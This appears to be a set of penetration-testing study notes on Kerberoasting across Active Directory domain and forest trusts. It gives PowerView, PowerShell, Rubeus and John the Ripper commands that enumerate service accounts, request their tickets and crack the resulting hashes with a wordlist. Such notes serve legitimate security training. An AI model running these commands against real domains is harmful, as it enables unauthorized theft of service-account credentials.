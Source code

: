 # Methodology
> 1. Enumerate what user account running as a service account we want to kerberoast.
> 2. Make sure it's not a honey pot account.
> 3. Make sure is a user made account, we don't want machine accounts since they have long passwords.
> 5. Kerberoast the user account.
> 7. Crack the ticket. 

>**ℹ️ Info:**
>Accross domain/forests trusts there is no need to use `/opsec`, AES256 is not used by default so no downgrade encryption needed!

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Find users that have an SPN set:**
```powershell
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
```

**Request a TGS accross trusts:**
```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken - ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## Rubeus
**Request a TGS accross trusts:**
```cmd
Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```


# Ticket Crack
https://www.openwall.com/john/k/john-1.9.0-jumbo-1-win64.zip

**Using John**:
```cmd
john-1.9.0-jumbo-1-win64\run\john.exe -- wordlist=rockyou.txt euhashes.txt
```